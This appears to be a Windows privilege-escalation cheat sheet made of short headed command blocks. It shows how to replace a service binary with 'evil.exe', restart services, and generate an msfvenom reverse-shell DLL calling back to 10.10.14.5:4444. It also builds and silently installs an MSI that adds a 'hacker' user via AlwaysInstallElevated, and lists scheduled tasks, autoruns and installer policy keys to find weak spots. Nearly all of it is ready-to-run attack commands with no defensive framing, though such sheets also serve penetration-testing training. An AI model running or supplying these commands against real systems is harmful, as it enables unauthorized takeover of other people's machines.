 ## Replace service binary with malicious executable
```cmd
icacls "C:\Program Files\Service\service.exe"
copy evil.exe "C:\Program Files\Service\service.exe"
```

## Stop and start service for exploitation
```cmd
net stop ServiceName
net start ServiceName
sc stop ServiceName
sc start ServiceName
```

## Create malicious DLL with msfvenom
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f dll > evil.dll
```

## List all scheduled tasks
```powershell
schtasks /query /fo LIST /v
Get-ScheduledTask | Where-Object {$_.State -eq "Ready"} | Select-Object TaskName,TaskPath
```

## Find writable scheduled task binaries
```cmd
schtasks /query /fo LIST /v | findstr /B /C:"Task To Run"
```

## Check for AlwaysInstallElevated registry keys
```cmd
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

## Create MSI payload for AlwaysInstallElevated
```bash
msfvenom -p windows/adduser USER=hacker PASS=Password123! -f msi > evil.msi
```

## Install malicious MSI silently
```cmd
msiexec /quiet /qn /i evil.msi
```

## Check registry autoruns
```cmd
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```
